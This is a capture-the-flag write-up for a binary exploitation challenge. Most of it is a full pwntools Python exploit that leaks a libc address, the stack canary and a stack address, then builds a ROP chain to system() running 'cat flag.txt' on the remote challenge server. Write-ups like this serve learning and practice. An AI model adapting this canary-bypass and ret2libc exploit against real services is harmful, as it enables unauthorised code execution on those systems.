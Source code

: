 
Hello,

In this task we were given a binary file with NX activated, Canary present and ASLR enabled on the remote server.

The first function prints the address of puts function in libc. (-0x500).

The second function prints the canary and a part of a stack address (4 bytes).

With Libc given in addition to all these leaked informationwe can rebuild the process layout in memory and build our payload.

Below is the exploit I wrote to pwn the service, the script process as follows:


+Leak puts() address.
+Calculate system() address.
+Leak Canary value.
+Leak a Stack address.
+Calculate the receive buffer address.
+Place the command to be executed in recieve buffer.
+Place the canary
+ROP to system with recieve buffer address as argument.
+Put all together
+Enjoy !

  
My exploit:

```python
from pwn import *
from struct import pack
from struct import unpack
import time


r = remote("pwn.chal.csaw.io", 8002)

r.recvuntil(">")
r.send("1\n")

r.recv()
puts =  int(r.recv()[:14],16) + 1280

print "[+] @puts : %x"%puts
r.send("2\n")

print r.recvuntil(">")

r.send("A"*310+"\n")
stack = r.recv()
print stack.encode("hex")
canary = stack[312:312+8]

print "[+] canary = "+canary.encode("hex")

print r.recvuntil(">")
r.send("2\n")

print r.recv()
print r.recv()


stackadd = 0x7ffc00000000 | unpack("I",stack[-4:])[0]

print "[+] stack add %x" %stackadd

#calc system address
libc = ELF('libc-2.19.so')
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
puts_libc =  libc.symbols['puts']
print "[+] @puts in libc : %x"%puts_libc
deltasystem = libc.symbols['system'] - puts_libc
#deltasystem = -170752
print "[+] delta system: "+ str(deltasystem)

system = pack("<Q", puts + deltasystem)

print "[+] @system: %x"%(puts + deltasystem)

recvbuf = stackadd - 368
print "[+] recvbuf: %x"%recvbuf

junk = pack("<Q", 0xdeadbeef)
pop_rdi = 0x4012e3
#pop_rdi = 0xdeadbeef

cmdadd = pack("<Q",recvbuf + 64)

#all together
cmd = "D"*64
cmd +="cat flag.txt 1>&4 2>&4"+   "\x00"
payload = cmd+"C"*(312-len(cmd))+canary+"A"*8+pack("<Q",pop_rdi)+cmdadd+system+junk+"\n"
r.send(payload)
print r.recv()
print r.recv()
#r.interactive()

```

Cheers !
